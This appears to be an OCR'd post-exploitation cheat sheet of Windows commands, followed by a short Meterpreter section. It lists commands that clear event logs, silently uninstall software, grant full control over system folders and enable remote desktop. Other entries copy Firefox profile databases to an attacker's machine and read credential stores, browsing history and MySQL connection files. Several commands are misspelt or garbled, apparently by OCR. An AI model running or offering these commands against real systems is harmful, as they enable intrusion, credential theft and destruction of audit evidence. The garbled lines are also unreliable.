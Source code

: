 ```powershell
[Deleting Logs]
wevtutil el (list logs)
wevtutil cl
[Uninstalling Software]
wmic proud get name /value: gets software names
wmic product where name="XXX": call uninstall /Interactive:Off: unintalss software
[Permissions]
icacls
Grant full access over directory and encompassing folders and files:
icacls "C:\windows" /grant Administrator:F /T
icacls "C:\" /grant "nt authority\system": F /T
[Net use]
net use: Map network shares
net use \computername (maps IPC$ which does not show up as a drive)
net use \computername /user:DOMAINNAME\username password ○ (maps IPC$ under another username)
[Mount a remote share with the rights of the current user]:
net use K: \\
dir K:
[Enable remote desktop]
reg add "HKLM\System\CurrentControlSet\Control\TermServer" /v fDenyTSConnections /t REG_DWORD /f
net session: list session information
[Other useful Commands]
pkgmgr usefull /iu :"Package"
pkgmgr usefull /iu :"TellnetServer": install telnet service
pkgmgr /iu:"TelnetClient"
rundll32.exe user32.dll, LockWorkStation: locks the screen
wscript.exe <script js/vbs>
cscript.exe <script js/vbs/c#>
xcopy /C /S %appdata%\Mozilla\Firefox\Profiles*.sqlite \your_box
type "C:\documents and settings\administrator\userdata\index.dat"
type %WINDIR%\System32\drivers\etc\hosts: view contents of hosts files
type "c:\Documents and Settings\Administrator\Local Settings\Application Data\Microsoft\Credentials"
cd "C:/Documents and settings\administrator\userdata" & dir
type "c:\Documents and Settings\Administrator\Desktop\UserMysql.txt"
type "c:\Documents and Settings\Administrator\Application Data\MySQL\mysqlx_user_connections.xml"
type "C:\documents and settings\administrator\userdata\index.dat"
```
{% endcode %}

### Meterpreter

{% code overflow="wrap" %}
```bash
#Basic Info
getuid

sysinfo

shell

```
{% endcode %}
